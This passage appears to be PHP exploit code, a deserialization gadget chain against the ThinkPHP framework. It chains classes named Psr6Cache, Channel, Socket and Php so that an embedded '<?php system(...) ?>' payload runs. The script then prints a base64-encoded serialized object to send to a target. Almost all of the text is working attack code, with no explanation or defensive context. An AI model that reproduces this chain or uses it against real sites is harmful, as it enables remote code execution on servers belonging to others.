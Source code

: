 ```php
        $this->url = '<?php system(\'curl \');exit(); ?>';
    }
}


namespace think\log\driver;
use think\App;
use think\view\driver\Php;

class Socket {
    protected $config;
    protected $app;
    protected $clientArg;
    public function __construct()
    {
        $this->config = [
            "force_client_ids" => true,
            "allow_client_ids"=> [],
            "debug" => true,
            "format_head"=> [new Php(),"display"]
        ];
        $this->app = new App();
        $this->clientArg = ["tabid"=>"1"];
    }
}


namespace think\log;
use think\log\driver\Socket;

class Channel {
    protected $logger;
    protected $lazy = false;
    public function __construct()
    {
        $this->lazy = false;
        $this->logger = new Socket();
    }
}


namespace League\Flysystem\Cached\Storage;


use think\log\Channel;

class Psr6Cache
{
    protected $autosave = false;
    private $pool;
    function __construct(){
        $this->pool =new Channel();
    }

}


echo base64_encode(serialize(new Psr6Cache()));
```
